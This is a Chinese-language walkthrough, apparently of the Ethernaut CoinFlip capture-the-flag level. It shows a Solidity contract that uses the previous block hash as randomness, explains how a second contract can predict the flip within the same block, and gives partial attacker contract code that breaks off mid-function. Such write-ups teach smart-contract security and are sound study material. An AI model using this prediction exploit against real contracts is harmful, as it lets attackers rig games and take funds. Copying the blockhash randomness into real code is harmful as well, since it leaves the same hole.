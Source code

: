 - 要求：连续10次猜对硬币的正反面
- 合约代码：
    
    ```
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    contract CoinFlip {
    
      uint256 public consecutiveWins;
      uint256 lastHash;
      uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
      constructor() {
        consecutiveWins = 0;
      }
    
      function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
    
        if (lastHash == blockValue) {
          revert();
        }
    
        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
    
        if (side == _guess) {
          consecutiveWins++;
          return true;
        } else {
          consecutiveWins = 0;
          return false;
        }
      }
    }
    ```
    
- 解题步骤：
    - 由flip()函数可知硬币的正反面是由当前区块的前一个区块的高度决定的，并且函数通过lashHash保证了同一区块只能提交一次，由第一关卡可知合约之间可以相互调用，并且本次调用和初始调用存在于同一区块。我们可以通过创建攻击合约先手预测硬币正反面，再调用目标合约。
    - 先把本关卡合约源码复制在remix上并编译和部署，再在remix上部署攻击合约，将目标合约的地址传入构造函数的参数。部署完成后，执行attack()方法就完成了一次攻击
    - 输入`await contrat.consecutiveWins()`可以查看合约的成功次数，依次调用10次后，攻击完成，提交本关卡
- 攻击合约代码：
    
    ```
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    import "./CoinFlip.sol";
    
    contract Attack{
        CoinFlip private coinFlip;
        uint256 FACOTR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
        constructor(address _name){
            coinFlip = CoinFlip(_name);
        }
        function attack() external{
            bool guess = guess();
            require(coinFlip.flip(guess),"guess false");
    